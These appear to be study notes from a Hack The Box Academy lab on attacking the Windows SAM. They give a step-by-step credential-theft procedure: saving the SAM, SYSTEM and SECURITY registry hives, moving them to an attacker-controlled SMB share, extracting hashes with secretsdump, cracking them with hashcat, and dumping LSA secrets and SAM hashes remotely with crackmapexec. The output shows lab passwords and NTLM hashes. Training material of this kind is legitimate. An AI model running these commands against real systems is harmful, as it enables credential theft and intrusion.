 
## Attacking SAM

1) **Copying SAM Registry Hives**

| Registry Hive | Description                                                                                                        |
|---------------|--------------------------------------------------------------------------------------------------------------------|
| hklm\sam      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| hklm\system   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                      |
| hklm\security | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                               |


```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```



2) **Creating a Share with smbserver.py**

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```cmd
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

3) **Dumping Hashes with Impacket's secretsdump.py**


```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

4) **Cracking Hashes with Hashcat**

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```


### Dumping LSA Secrets Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

### Dumping SAM Remotely

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198   445    WS01     bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198   445    WS01     sam:1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc:::
SMB         10.129.42.198   445    WS01     rocky:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::
SMB         10.129.42.198   445    WS01     worker:1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
SMB         10.129.42.198   445    WS01     [+] Added 8 SAM hashes to the database
```

